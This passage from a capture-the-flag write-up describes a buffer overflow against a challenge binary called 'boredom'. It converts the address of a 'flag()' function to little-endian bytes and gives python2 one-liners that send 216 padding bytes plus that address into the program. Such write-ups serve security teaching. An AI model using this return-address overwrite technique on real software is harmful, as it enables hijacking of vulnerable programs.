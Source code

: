 <img src="./static/img2.png" alt="disas flag" width="600"/>

So, the `flag()` function begins at the address `0x00000000004011d5`. These are all hexadecimal characters, and need to be written using [little endian format](https://en.wikipedia.org/wiki/Endianness) for the final payload. Thus, all the bytes in the address need to be typed in reverse, making it `\xd5\x11\x40\x00\x00\x00\x00\x00`. The final payload can be generated using `python 2`, as shown below:

```bash
python2 -c "print 'a'*216 + '\xd5\x11\x40\x00\x00\x00\x00\x00'"
```

The output of this can be piped into the `boredom` binary, using:

```bash
python2 -c "print 'a'*216 + '\xd5\x11\x40\x00\x00\x00\x00\x00'" | ./boredom
```

This results in the following output.

<img src="./static/img3.png" alt="python2 ... | ./boredom" width="600"/>
